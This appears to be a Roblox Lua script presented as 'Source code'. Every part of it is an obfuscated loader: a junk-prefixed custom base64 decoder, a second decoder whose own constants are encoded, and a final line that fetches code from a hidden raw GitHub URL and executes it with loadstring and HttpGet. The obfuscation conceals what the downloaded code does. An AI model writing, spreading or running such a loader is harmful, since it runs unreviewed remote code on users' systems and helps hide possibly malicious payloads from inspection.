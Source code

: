 local b='ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
function vyUUeiaKVTDX(data) m=string.sub(data, 0, 55) data=data:gsub(m,'')

data = string.gsub(data, '[^'..b..'=]', '') return (data:gsub('.', function(x) if (x == '=') then return '' end local r,f='',(b:find(x)-1) for i=6,1,-1 do r=r..(f%2^i-f%2^(i-1)>0 and '1' or '0') end return r; end):gsub('%d%d%d?%d?%d?%d?%d?%d?', function(x) if (#x ~= 8) then return '' end local c=0 for i=1,8 do c=c+(x:sub(i,i)=='1' and 2^(8-i) or 0) end return string.char(c) end)) end


 


local b=vyUUeiaKVTDX('jirMnRCQRYGXBWpoBiJKQPqSnyCwIpayTwACmAFmBFufPhhlszhXxmSQUJDREVGR0hJSktMTU5PUFFSU1RVVldYWVphYmNkZWZnaGlqa2xtbm9wcXJzdHV2d3h5ejAxMjM0NTY3ODkrLw==')
function GyTUzYtPkxDCdEWOptyTTeFdbwQBbpGjpKqfJCgSGGMDqVadVFRnhwTaoERidLSXtgdhDZSVtDrqUQFBLpLHEKpqPj(data) m=string.sub(data, 0, 55) data=data:gsub(m,vyUUeiaKVTDX('nkOjdyXzfsVICzlYtpWeLUKMlIEWmvTsYDjAmYiUrBZfMgWwIhQjdgA'))

data = string.gsub(data, vyUUeiaKVTDX('sxKrutpSDTepEaDjjNIRpHOYofDECvEuDfehJxTfkPMLJEVqDCibXNnW14=')..b..vyUUeiaKVTDX('czlXflHnyjSIunXfaatARNCBpQDOuVoGUWsNGVlwssxHLdqrLbNaQhtPV0='), vyUUeiaKVTDX('JifOSbneRURzNHaZfRrpDurKiWPYskstXMWJhqhnXakgzRnZHcwVkeL')) return (data:gsub(vyUUeiaKVTDX('XweyvAnukqirWBkdvMdhxYflQhepgTmFhxfwUjizeVFHGyikqfTnCXCLg=='), function(x) if (x == vyUUeiaKVTDX('iQSWfgOBetcqIinYHlPWAPowUbqTPxpYgBMbBnszngiJZwOVkHpqQcQPQ==')) then return vyUUeiaKVTDX('HYJDqlmVcufbcabQdMnjOhaTUAatigAISyhBIbxmzlGiInMrmyvqXwM') end local r,f=vyUUeiaKVTDX('dqmIPUHtJLXZgKZWGgRAAuIpzmwfOnhdRAaAboGXYUURQNDeNbdEQom'),(b:find(x)-1) for i=6,1,-1 do r=r..(f%2^i-f%2^(i-1)>0 and vyUUeiaKVTDX('YTWfyzvlYuYWgPjrYfdIYdNLHaUZlxkVxpMvcXLrotUXuPgsBYzYNsmMQ==') or vyUUeiaKVTDX('qurLhSRPDDMPJzBggZFtqfIbxhDaoTPndEBlcKZfzADxySclRGZhRRoMA==')) end return r; end):gsub(vyUUeiaKVTDX('IMIUOuKhiELhpwshHzGciJcwGZvQPrxOPcdIYWhIRlaHeiFGgPYRRXyJWQlZCVkPyVkPyVkPyVkPyVkPyVkPw=='), function(x) if (#x ~= 8) then return vyUUeiaKVTDX('RIJjtKOEiYmQjYTzVMGQDHXAsiSeVuFlNcKrHzhZbxbHGCxjUeLJJwy') end local c=0 for i=1,8 do c=c+(x:sub(i,i)==vyUUeiaKVTDX('iVTbcYnsoomnIPFmKDGPQapxGUSpyJMxielWsOPAdIRuHFLmUKreimoMQ==') and 2^(8-i) or 0) end return string.char(c) end)) end


 


loadstring(game:HttpGet(GyTUzYtPkxDCdEWOptyTTeFdbwQBbpGjpKqfJCgSGGMDqVadVFRnhwTaoERidLSXtgdhDZSVtDrqUQFBLpLHEKpqPj(vyUUeiaKVTDX('hpREkrdAjyBTCZaEkjWVsVsPDAtLYOPrdFrcmzqebdVvMCSCVcRqcngVG92ZkxtbWxOd2plSGdtd09Rb2lad2dGWkRDbWNuT2FPYnhlckJjT3FPSnhrUHdiaFFId1ZKbWFIUjBjSE02THk5eVlYY3VaMmwwYUhWaWRYTmxjbU52Ym5SbGJuUXVZMjl0TDJGMGJ6RXhORFV4TkM5aGRHOHZiV0ZwYmk5U1JVRkVUVVV1YldRPQ=='))))()        
